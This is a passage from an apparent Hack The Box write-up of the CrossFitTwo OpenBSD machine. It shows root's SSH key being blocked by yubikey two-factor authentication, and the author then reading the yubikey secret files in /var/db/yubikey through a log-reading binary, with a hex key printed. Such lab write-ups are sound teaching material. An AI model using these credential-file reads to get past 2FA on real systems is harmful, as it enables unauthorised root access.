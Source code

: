 And we got the ```root``` SSH private key, Let's try to use it:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ ssh -i id_rsa root@crossfit.htb
root@crossfit.htb's password: 
```

SSH is still asking for a password after using the ```root``` SSH Key.

By reading the file ```/etc/login.conf``` we can see that ```auth-ssh``` required also [yubikey](https://www.yubico.com/) which is 2FA :
```yaml
#
# Settings used by /etc/rc and root
# This must be set properly for daemons started as root by inetd as well.
# Be sure to reset these values to system defaults in the default class!
#
daemon:\
        :ignorenologin:\
        :datasize=infinity:\
        :maxproc=infinity:\
        :openfiles-max=102400:\
        :openfiles-cur=102400:\
        :stacksize-cur=8M:\
        :auth-ssh=yubikey:\
        :auth-su=reject:\
        :tc=default:
```

By reading about [yubikey OpenBSD](https://www.straybits.org/post/2014/openbsd-yubikey/) we can see:

![yubikey.JPG](images/yubikey.JPG)

So we have three files on ```/var/db/yubikey/``` ([Reference](https://man.openbsd.org/login_yubikey.8)):

1. ```root.uid``` user's UID (12 hex digits).
2. ```root.key``` the user's key (32 hex digits).
3. ```root.ctr``` user's last-use counter. 
 
We can read those files using ```/usr/local/bin/log```:
```console
crossfit2$ /usr/local/bin/log /var/db/yubikey/root.key

* LogReader v0.1

[*] Log size: 33

6bf9a26475388ce998988b67eaa2ea87
crossfit2$ /usr/local/bin/log /var/db/yubikey/root.uid

* LogReader v0.1

[*] Log size: 33

```